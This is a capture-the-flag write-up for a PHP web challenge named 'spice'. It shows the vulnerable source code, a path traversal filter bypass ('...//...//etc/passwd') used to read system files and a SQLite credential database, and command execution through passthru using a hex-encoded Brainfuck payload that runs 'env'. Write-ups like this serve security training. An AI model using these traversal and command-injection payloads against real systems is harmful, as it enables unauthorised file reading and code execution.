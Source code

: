 # spice
> Try /spice.php

> engineer1337 : engineer1337

> wait 5 sec, after start (long boot process)

## About the Challenge
We have been given a website, and if we access the `/spice.php` endpoint the website will leak the source code

```php
<?php
require __DIR__ . '/vendor/autoload.php';
use \Firebase\JWT\JWT;
use Firebase\JWT\Key;
use \dotzero\Brainfuck;
include_once 'getSecret.php';
include_once 'db.php';

    if (isset($_GET['username']) && isset($_GET['password'])){

        $db = getDb();
        $user = filter_var($_GET['username'], FILTER_SANITIZE_SPECIAL_CHARS);

        $statement = $db->prepare("SELECT password FROM users WHERE username='" . $user . "'");
        $result = $statement->execute();
        
        while ($row = $result->fetchArray(SQLITE3_ASSOC)) {
            $pass  = reset($row);
        }

        if ($pass === $_GET['password']){
            $key = getSecret();
            $payload = ['user' => $user ];
            $jwt = JWT::encode($payload, $key, 'HS256');
            setcookie('jwt', $jwt);
            echo $jwt;
        } else {
            echo "Bad creditionals";
        }
    }
    else{
        if (isset($_GET['bf_base16'])){
        $swag = 123; 
        } else {
           $source = show_source("spice.php", true);
           echo $source;
                
    }
    }
    
    if (isset($_COOKIE['jwt'])){
        if (isset($_GET['bf_base16'])){
        $key = getSecret();
        $decodeJwt = JWT::decode($_COOKIE['jwt'], new Key($key, 'HS256'));
        $decodeJwt = (array) $decodeJwt;
        $user = $decodeJwt['user'];
        if ($user === 'admin'){
            $base_code = $_GET['bf_base16'];
            $code = hex2bin($base_code);

            $bf = new Brainfuck($code);
            $output = $bf->run(true);

            passthru($output); ///It's a joke !
        }
        die();
        }

        $key = getSecret();
        $decodeJwt = JWT::decode($_COOKIE['jwt'], new Key($key, 'HS256'));
        $decodeJwt = (array) $decodeJwt;
        $user = $decodeJwt['user'];
        if ( $user === 'engineer1337'){
            echo "Enter the title of the article to read it ";
            if(isset($_GET['article'])){
                $string = $_GET['article'];
                $article = str_replace("./", '', $string);
                if (!file_exists($article)){
                    echo "<h1>The article does not exist!</h1>";
                } else {
                    echo "Article: " . file_get_contents($article) ;
                }
            }
        } 
    }
?>
```

## How to Solve?
If we check on the source code, we can input a password and username using GET method. We use `engineer1337` as a password and username. So the request will be like this

![login](images/login.png)

After login, we need to add `article` parameter. And there is a `Directory Traversal` vulnerability because there is `file_get_contents` function

```php
if(isset($_GET['article'])){
    $string = $_GET['article'];
    $article = str_replace("./", '', $string);
    if (!file_exists($article)){
        echo "<h1>The article does not exist!</h1>";
    } else {
        echo "Article: " . file_get_contents($article) ;
    }
}
```

But there is a filter, if we input `./` the code will replace it with blank. So to bypass the filter, we can append the payload. The usual payload is `../../../../etc/passwd` and we can bypass that using `...//...//...//...//etc/passwd`

![dir_traversal](images/dir_traversal.png)

If we check the `spice.php` source code. There is an interesting file, `db.php` and `getSecret.php` (We will ignore getSecret.php because that file just a rabbit hole). If we check the content of `db.php` we will get another interesting file

![sqllite](images/sqlite.png)

There is a SQLite database file, if we check the content of the file by accessing `/spice.php?username=engineer1337&password=engineer1337&article=...//...//...//...//...//...//...//...//...//var/www/html/vuln-php.db` we will get administrator username and password

![sqlite_content](images/content_sqlite.png)

Now, use the admin credential as username and password.

![admin](images/admin.png)

Because we now login as administrator, we can execute an OS command using `bf_base16` parameter. Why? Check the code below, because we already login as administrator, we can execute OS command using `passthru` PHP function

```php
if ($user === 'admin'){
    $base_code = $_GET['bf_base16'];
    $code = hex2bin($base_code);

    $bf = new Brainfuck($code);
    $output = $bf->run(true);

    passthru($output); ///It's a joke !
}
```

Because the code using `Brainfuck()` and `hex2bin()`. We need to wrap our payload using brainfuck first and then encode it using hex.

For example I want to run `env` command. The brainfuck will look like this
```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>+.+++++++++.++++++++.
```

And then change it to hex
```
2b2b2b2b2b2b2b2b2b2b5b3e2b3e2b2b2b3e2b2b2b2b2b2b2b3e2b2b2b2b2b2b2b2b2b2b3c3c3c3c2d5d3e3e3e3e2b2e2b2b2b2b2b2b2b2b2b2e2b2b2b2b2b2b2b2b2e
```

Send the payload to the server using `bf_base16` parameter and you will get the flag because the flag is located on environtment var

![flag](images/flag.png)

```
OmWars{fcd9ead7-575c-4d3f-b277-a8da7c509a97}
```
